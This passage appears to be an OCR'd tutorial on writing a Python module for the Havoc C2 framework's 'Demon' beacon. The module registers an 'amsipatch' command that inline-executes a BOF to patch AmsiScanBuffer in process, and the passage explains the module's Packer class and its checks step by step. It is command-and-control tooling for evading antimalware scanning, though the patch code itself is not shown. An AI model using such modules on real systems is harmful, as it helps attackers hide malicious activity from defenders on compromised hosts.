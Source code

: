 ```
    demon  = Demon( demonID )


    if demon.ProcessArch == "x86":
        demon.ConsoleWrite( demon.CONSOLE_ERROR, "x86 is not supported" )
        return

    TaskID = demon.ConsoleWrite( demon.CONSOLE_TASK, "Tasked beacon to patch AMSIScanBuffer()" )

    Task = Packer()

    demon.InlineExecute( TaskID, "go", f"amsipatch.o",b'', False)
    return TaskID

RegisterCommand( amsipatch , "", "amsipatch", "in process AMSI patch", 0, "", '')
```

We start by implementing a `Packer` class along with a few methods that will be used to properly pack information such as arguments that our *BOF* requires for proper execution.

```
class Packer:
    def __init__(self):
        self.buffer : bytes = b''
        self.size   : int   = 0

    def getbuffer(self):
        return pack("<L", self.size) + self.buffer

    def addstr(self, s):
        if isinstance(s, str):
            s = s.encode("utf-8")
        fmt = "<L{}s".format(len(s) + 1)
        self.buffer += pack(fmt, len(s)+1, s)
        self.size += calcsize(fmt)
```

We then perform the same check as in the other module, making sure that we are not in an *x86* process.

```
if demon.ProcessArch == "x86":
        demon.ConsoleWrite( demon.CONSOLE_ERROR, "x86 is not supported" )
        return
```

Next, we provide the user with a debug message in the console.

```
TaskID = demon.ConsoleWrite( demon.CONSOLE_TASK, "Tasked beacon to patch AMSIScanBuffer()" )
```

Making sure to initiate the Packer.

```
Task = Packer()
```
